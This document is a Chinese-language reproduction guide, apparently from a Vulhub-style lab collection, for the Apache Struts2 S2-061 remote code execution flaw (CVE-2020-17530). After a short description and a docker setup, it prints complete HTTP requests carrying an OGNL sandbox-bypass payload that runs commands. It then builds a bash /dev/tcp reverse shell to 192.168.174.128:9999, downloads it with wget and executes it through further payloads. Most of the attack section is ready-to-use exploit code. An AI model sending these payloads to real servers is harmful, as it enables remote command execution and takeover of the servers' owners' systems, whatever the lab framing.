 # Apache Struts2 S2-061 远程代码执行漏洞 CVE-2020-17530

## 漏洞描述

S2-061 是对 S2-059 的绕过，Struts2 官方对 S2-059 的修复方式是加强 OGNL 表达式沙盒，而 S2-061 绕过了该沙盒。

参考链接：

- https://cwiki.apache.org/confluence/display/WW/S2-061
- https://github.com/ka1n4t/CVE-2020-17530
- https://www.anquanke.com/post/id/225252
- https://mp.weixin.qq.com/s/RD2HTMn-jFxDIs4-X95u6g

## 漏洞影响

影响版本: Struts 2.0.0 - Struts 2.5.25

## 环境搭建

Vulhub 执行以下命令启动 s2-061 测试环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/index.action` 查看到首页。

## 漏洞复现

发送如下数据包，即可执行 `id` 命令：

```
POST /index.action HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 829

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("id")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

可见，`id` 命令返回结果将直接显示在页面中：

![image-20220302141415253](images/202203021414376.png)

### 反弹 shell

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为：

```
POST /index.action HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 858

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("wget 192.168.174.128/shell.sh")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

执行 shell.sh 文件的命令为：

```
bash shell.sh
```

执行 shell.sh 文件的 Payload 为：

```
POST /index.action HTTP/1.1
Host: your-vps-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 842

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("bash shell.sh")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
------WebKitFormBoundaryl7d1B1aGsV2wcZwF--
```

成功接收反弹 shell：

![image-20220302141455009](images/202203021414092.png)
